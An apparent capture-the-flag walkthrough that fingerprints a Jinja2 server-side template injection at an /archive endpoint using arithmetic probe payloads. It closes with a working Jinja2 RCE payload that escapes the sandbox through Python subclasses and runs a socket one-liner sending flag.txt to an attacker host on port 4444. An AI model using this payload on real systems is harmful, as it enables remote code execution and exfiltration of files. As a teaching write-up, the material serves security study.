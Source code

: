 - `{{7*7}}` → typically for **Jinja2 (Python)**
- `#{7*7}` → typically for **Thymeleaf (Java)**

Let’s give `{{7*7}}` a whirl. But remember, our **/archive** endpoint is currently **spitting out** a 500 error due to our original post. We need to **remove** that troublesome post first, then create a **fresh** one with our new payload.

**The plan:**

1. **Delete** our existing post (the one causing the 500 error at /archive).
2. Go back and create a **new message**—this time, both Title and Content will be `{{7*7}}`.
3. **Confirm** that we see it on the main page.
4. Visit **/archive** again.

Let’s pop open **Burp Suite** and watch the **HTTP history** for `/home` and `/archive`.

- **BurpSuite /home endpoint**:  
    ![[burp-server-identity.png]]
    
- **BurpSuite /archive endpoint**:  
    ![[archive-49.png]]
    

Two big takeaways here:

1. The server at `/home` is clearly running **Python**.
2. Our `{{7*7}}` payload **evaluated** to **49**.

Referring back to the flowchart, that means we’re likely dealing with **Jinja2** (or possibly Twig). But since Twig is a **PHP** template engine and we see Python under the hood, we can safely bet on **Jinja2**.

This is good news! Now that we have a potential **SSTI** and a strong guess it’s **Jinja2**, we can try **another** quick test: `{{7*'7'}}`. That goofy-looking payload is just `7 multiplied by the character '7'`, which should come out to **7777777** if it works.

Let’s post **another** new message using only the Title field this time (so we’re not cluttering up the page with multiple payloads). Revisit **/archive**, crack open the source, and if all goes well, you’ll see **49** (from our previous payload) and now **7777777**. That all but confirms **Jinja2**. Next stop: **RCE** territory!

![[archive-jinja-payload.png]]

---

## Understanding the Big Guns: Jinja2 RCE Payloads

Now, this is where things get interesting. Check out this monster payload:

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
